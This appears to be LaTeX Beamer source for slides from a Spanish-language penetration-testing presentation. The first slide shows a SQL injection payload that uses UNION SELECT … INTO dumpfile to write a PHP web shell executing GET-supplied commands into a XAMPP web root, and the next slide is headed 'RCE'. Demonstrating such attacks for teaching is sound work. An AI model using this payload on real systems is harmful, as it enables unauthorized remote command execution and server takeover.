 \documentclass{beamer}
\begin{document}
\begin{frame}{Inyectamos }
    \centering
    
    \begin{figure}
        \centering
        \includegraphics[width=.8\textwidth]{fragments/pentest/pen4.png}
    \end{figure}
    \texttt{Libro de prueba 3' union SELECT 1,2,3,4, '\\n<?php echo shell\_exec(\$\_GET['cmd']); ?>' INTO dumpfile 'C:/xampp/htdocs/enwi/test.php' -- }
\end{frame}



\begin{frame}{RCE }
    \centering
    
    \begin{figure}
        \centering
        \includegraphics[width=.8\textwidth]{fragments/pentest/pen5.png}
    \end{figure}
\end{frame}


\begin{frame}{Finale }
    \centering
    
    \begin{figure}
        \centering
        \includegraphics[width=.8\textwidth]{fragments/pentest/pen6.png}
    \end{figure}
\end{frame}
\end{document}
